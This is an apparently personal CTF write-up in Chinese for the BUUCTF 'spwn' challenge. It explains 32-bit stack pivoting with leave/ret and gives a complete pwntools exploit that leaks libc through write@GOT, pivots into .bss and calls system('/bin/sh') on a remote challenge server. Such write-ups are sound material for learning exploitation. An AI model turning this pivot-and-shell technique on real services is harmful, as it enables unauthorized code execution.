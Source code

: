 ```yaml
---
title: spwn (栈偏移)
categories: 
    - Stack
    - spwn (栈偏移)
---
```

# spwn (栈偏移)
<!--more-->

32bit程序

看ida

![20201206182837](https://raw.githubusercontent.com/YTrick/image/branch/image/20201206182837.png)

汇编中发现 leave retn

![20201206183042](https://raw.githubusercontent.com/YTrick/image/branch/image/20201206183042.png)

leave retn：

```
leave ==> mov esp, ebp;  pop ebp;
retn  ==> pop eip
```

其中pop eip相当于将栈顶数据给eip，由于ret返回的是栈顶数据，而栈顶地址是由esp的值决定的，esp的值，从leave可以得出是由ebp决定的。所以我们可以通过覆盖ebp的值来控制ret返回地址。两次leave ret即可控制esp为我们想要的地址。由于有pop ebp，会使esp-4（64位-8），将ebp 覆盖为想要调整的位置-4（64位-8）即可

exp:

```python
from pwn import *
from LibcSearcher import *

p=remote('node3.buuoj.cn',26070)
#p=process('./spwn')
elf=ELF('./spwn')
write_plt=elf.plt['write']
write_got=elf.got['write']
main_addr=elf.symbols['main']
bss_addr=0x0804A300
leave_ret=0x08048511

payload=p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
p.recvuntil("What is your name?")
p.send(payload)

payload1='a'*0x18+p32(bss_addr-4)+p32(leave_ret)
p.recvuntil("What do you want to say?")
p.send(payload1)

write_addr=u32(p.recv(4))
print(hex(write_addr))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_addr=libc_base+libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')

p.recvuntil("What is your name?")
payload=p32(sys_addr)+'aaaa'+p32(bin_addr)
p.send(payload)

p.recvuntil("What do you want to say?")
p.send(payload1)

p.interactive()
```
